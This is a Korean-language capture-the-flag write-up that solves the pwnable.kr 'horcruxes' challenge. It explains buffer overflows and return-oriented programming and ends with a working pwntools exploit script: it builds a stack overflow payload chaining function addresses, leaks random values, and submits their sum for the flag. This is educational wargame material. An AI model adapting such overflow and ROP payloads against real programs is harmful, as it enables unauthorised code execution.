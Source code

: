 # horcruxes - 7 pt

## 문제

```text
Voldemort concealed his splitted soul inside 7 horcruxes.
Find all horcruxes, and ROP it!
author: jiwon choi

ssh horcruxes@pwnable.kr -p2222 (pw:guest)
```

## 풀이

눈물흘리면서 [핸드레이](https://gist.github.com/cxbt/597c5ef531256bd48a07abecec90fee4)를 해봤다. 허허허 그래도 다 할수 있어서 다행이야

아무튼 프로그램이 한번 돌때마다 호크룩스의 값이 모두 랜덤값으로 초기화, 총 7개의 호크룩스 총 합값을 구하면 문제를 풀수 있다. 이 문제의 문제(?)는 일단 한번 지나치면 프로그램이 끝난다. 버퍼 오버플로우가 발생하니까 그냥 실행 흐름만 `flag`를 표시하는 루틴으로 넘기면 되지 않느냐라고 할 수도 있지만, `ropme`의 함수 주소에 `0x00`과 `0x0A`, 해커가 싫어하는 `EOF`가 있기 때문에 넘길 수가 없다ㅋ (비슷한 [ASCII Armor](http://blog.naver.com/PostView.nhn?blogId=s2kiess&logNo=220028141641)라는 보호기법이 있다.)

제대로 각 호크룩스 값을 구하면서 총합을 맞춰서 `flag`를 얻어야 하는데 사실 ROP로 간단하게 해결이 된다. 그렇다고 `ROP` 페이로드가 복잡한 것도 아니다.

`ROP`는 `Return Oriented Programming`의 약자로, 해커가 한번 프로그램의 실행 흐름을 잡았을 때 `RET`을 이용해서 한도 끝도 없이 마음대로 프로그램을 가지고 농락할 수 있도록 하는 기법이다. 사실 이 문제에서는 가젯도 전혀 필요가 없어서 설명할게 별로 없다. 일련의 절차로 `ROP`를 설명하겠다.

1. `RET` 명령어를 만나면, `POP EIP`와 `JMP EIP`로 함수에 들어오기 전에 저장해 두었던 리턴 주소를 가져와 점프한다.
2. 일단 리턴 주소를 우리가 원하는 함수로 변조한다. 뭐 예를 들면 `grape`라는 함수에 들어갔다고 하자.
3. `grape`함수로 들어가서 뭔가 수행하면 결국엔 그 함수 끝부분에 있는 `RET`로 돌아오게 된다.
4. `grape`에서 `RET`를 수행하면 똑같이 스택에서 리턴주소를 꺼내 원래 실행 흐름으로 복귀할 것이다.
5. 해커는 이 리턴 주소를 또 변조해서 계속 실행흐름을 바꾸고, 계속 프로그램을 원하는 대로 가지고 논다.

간단해 보이지만, 이게 심화되면 진짜 프로그램에 있는 모든 걸 조작하고 마음대로 함수 호출하고 난리를 칠수 있다.

그림으로 보면 이렇게 표현할 수 있...다...

![1](screenshot/horcruxes_1.png)

`horcruxes` 문제에서는 간단하게 리턴 주소부터 `A`, `B`, `C`, 등등 함수를 써서 각 호크룩스의 값을 알아온뒤 `ropme`함수에 가서 볼드모트를 물리치면 된다. 잠깐! 아까 말한것처럼 `ropme` 함수의 주소는 `0A`와 `00`을 포함해서 정상적으로 보낼 수 없다.

차라리 `main` 함수에서 `ropme` 함수 호출하는 부분으로 실행흐름을 바꾸자. 그러면 안걸리고 잘된다ㅎ (이 부분에서 2시간 막힌듯ㅋ)

```python
from pwn import *

r = remote("0.0.0.0", 9032)

print r.recvuntil("Select Menu:")
r.sendline("1")
print r.recvuntil("earned? : ")

payload = ""
payload += "A"*0x78
payload += p32(0x0809fe4b)  # A
payload += p32(0x0809fe6a)  # B
payload += p32(0x0809fe89)  # C
payload += p32(0x0809fea8)  # D
payload += p32(0x0809fec7)  # E
payload += p32(0x0809fee6)  # F
payload += p32(0x0809ff05)  # G
payload += p32(0x0809fffc)  # main+208, call <ropme>

r.sendline(payload)
d = r.recvuntil("Select Menu:")
print d

exp = 0
for e in d.split("+")[1:]:
    exp += int(e.split(")")[0],10)

r.sendline("1")
print r.recvuntil("earned? : ")
r.sendline(str(exp))
print r.recv()
```